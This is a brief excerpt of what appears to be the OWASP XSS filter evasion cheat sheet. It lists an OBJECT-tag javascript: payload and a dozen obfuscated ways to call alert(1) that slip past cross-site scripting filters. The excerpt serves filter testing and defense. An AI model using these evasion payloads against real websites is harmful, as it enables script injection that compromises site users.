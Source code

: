 - `<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT>`

## Filter Bypass Alert Obfuscation

- `(alert)(1)`
- `a=alert,a(1)`
- `[1].find(alert)`
- `top[“al”+”ert”](1)`
- `top[/al/.source+/ert/.source](1)`
- `al\u0065rt(1)`
- `top[‘al\145rt’](1)`
- `top[‘al\x65rt’](1)`
- `top[8680439..toString(30)](1)`
- `alert?.()`
- &#96;` ${alert``} `&#96; (The payload should include leading and trailing backticks.)
- `(alert())`

source: [OWASP
/
www-community](https://github.com/OWASP/www-community/blob/master/pages/xss-filter-evasion-cheatsheet.md)
